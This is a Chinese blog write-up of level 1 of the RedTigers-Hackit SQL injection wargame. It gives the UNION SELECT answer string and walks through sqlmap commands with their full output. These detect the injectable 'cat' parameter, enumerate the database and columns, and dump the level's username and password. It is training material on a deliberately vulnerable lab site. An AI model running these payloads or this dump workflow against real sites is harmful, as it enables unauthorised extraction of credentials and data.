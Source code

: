 ```yaml
---
layout: post
category: "python"
title: "RedTigers-Hackit[第一关]"
tags: ["sqlmap技术分享"]
---
```


#### 1.安装扩展
- RedTigers-Hackit是一个训练SQLi（SQL注入漏洞）
- <https://redtiger.labs.overthewire.org/> 
- 闲的没事儿，搜了一下，网上有答案 
- 第一关答案:
- https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users
- 好吧，这不是我想要的结果
- 既然是sql注入用sqlmap吧，在liunx下习惯了命令行
- git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
- 直接python sqlmap.py -xxxxxx 就可以使用


#### 2.其实我就想知它怎么来的：
```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1"
```
得到如下所示，存在注入点，union注入，4列字段：

```
sqlmap identified the following injection points with a total of 60 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[21:59:54] [INFO] testing MySQL
[21:59:59] [INFO] confirming MySQL
[22:00:08] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.0
[22:00:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'
```

还是猜一下库名吧：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" --current-db
```

```
[*] starting at 22:18:29

[22:18:29] [INFO] resuming back-end DBMS 'mysql'
[22:18:29] [INFO] testing connection to the target URL
[22:18:35] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[22:18:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL 5
[22:18:39] [INFO] fetching current database
current database:    'hackit'
[22:18:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'

```
表名页面有提示，省掉一步：
Tablename: level1_users 

猜列名：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" --columns
```
得到结果，其实到这里就不用再猜了，重要的两个字段出来了

```
[22:23:13] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 12
[22:23:20] [CRITICAL] maximum number of used threads is 10 avoiding potential connection issues
please enter number of threads? [Enter for 1 (current)] 10
[22:23:25] [INFO] starting 10 threads
[22:23:41] [INFO] retrieved: username
[22:23:42] [INFO] retrieved: id
[22:27:05] [INFO] retrieved: password
[22:47:24] [INFO] tried 1245/2526 items (49%)
[22:47:27] [CRITICAL] connection dropped or unknown HTTP status code received. Try to force the HTTP User-Agent header with option '--user-agent' or switch '--random-agent'. sqlmap is going to retry the request
[22:47:27] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
[22:48:14] [INFO] tried 1275/2526 items (50%)
```

看用户名和密码

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" -C "username,password" --dump

```

两个字段内容

```
[22:52:35] [WARNING] unable to retrieve column names for table 'level1_users' in database 'hackit'
[22:52:35] [INFO] fetching entries of column(s) 'password, username' for table 'level1_users' in database 'hackit'
[22:52:44] [INFO] analyzing table dump for possible password hashes
Database: hackit
Table: level1_users
[1 entry]
+----------+-------------+
| username | password    |
+----------+-------------+
| Hornoxe  | thatwaseasy |
+----------+-------------+

```
在网站第一关输入后，过关。

>
- 请尊重本人劳动成功，可以随意转载但保留以下信息 
- 作者：岁月经年 
- 时间：2015年5月
